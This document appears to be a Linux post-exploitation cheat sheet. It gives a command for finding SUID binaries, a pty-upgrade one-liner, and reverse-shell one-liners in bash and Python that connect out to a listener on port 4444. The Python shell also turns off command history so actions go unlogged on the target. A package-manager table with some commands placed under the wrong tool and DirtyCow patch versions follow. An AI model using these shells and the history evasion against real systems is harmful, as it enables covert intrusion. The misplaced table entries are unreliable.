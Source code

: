 === Linux
==== Find interesting things

   find / -perm /6000 -type f 2>/dev/null

SUID binaries

==== TTYs

  python -c 'import pty; pty.spawn("/bin/bash")'

Upgrade your current session to one with a pty.

==== Reverse Shells

===== Bash

  bash -c 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1'

The first `bash` has to be bash, to get the tcp support used later on. The second `bash` could be any other shell or program.

===== Python

  python -c 'import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); \
  s.connect(("127.0.0.1", 4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); \
  os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash"); \
  s.close()'

This also sets up the tty from earlier and "nulls out" the path to the history file, so your commands aren't saved on the target.

<<<

==== Package Managers

|===
|Action |apt |dpkg |yum |rpm
|List
|->
|`dpkg -l`
|`yum list installed`
|`rpm -qa`

|Search available
|`apt-cache search P`
|_n/a_
|`yum search P`
|_n/a_

|Install
|`apt install P`
|`dpkg -i P.deb`
|`yum install P`
|`rpm -i P.rpm` or `rpm -U P.rpm`

|Remove
|`dpkg -P P`
|`apt remove P`
|`yum remove P`
|`rpm -e P`

|Check for corruption
|_n/a_
|`debsums -as`
|_n/a_
|`rpm -Va`


|===
==== Exploits
===== CVE-2016-5195 DirtyC0w

Patched in:

|===
|4.8.0-26.28 |Ubuntu 16.10
|4.4.0-45.66 |Ubuntu 16.04 LTS
|3.13.0-100.147 |Ubuntu 14.04 LTS
|3.2.0-113.155 |Ubuntu 12.04 LTS
|3.16.36-1+deb8u2 |Debian 8
|3.2.82-1 |Debian 7
|4.7.8-1 |Debian unstable
|===

<<<
